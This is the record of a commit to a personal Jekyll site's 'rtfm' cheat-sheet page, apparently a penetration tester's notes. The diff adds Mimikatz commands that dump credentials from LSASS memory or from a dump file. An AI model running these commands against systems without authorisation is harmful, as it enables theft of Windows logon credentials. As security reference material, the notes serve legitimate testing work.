

Before and after one commit to br33z3/br33z3.github.io, a Jekyll site: the page built from _pages/rtfm.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (64-1023 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update rtfm.md

```diff
--- a/_pages/rtfm.md
+++ b/_pages/rtfm.md
@@ -24,3 +24,9 @@ date: 2022-12-10
 ### Disable RDP From Regedit
 
     reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
+
+### Lsass Dump via Mimikatz
+
+    privilege::debug
+    sekurlsa::minidump file.DMP (If there is a DMP file)
+    sekurlsa::logonpasswords full
```
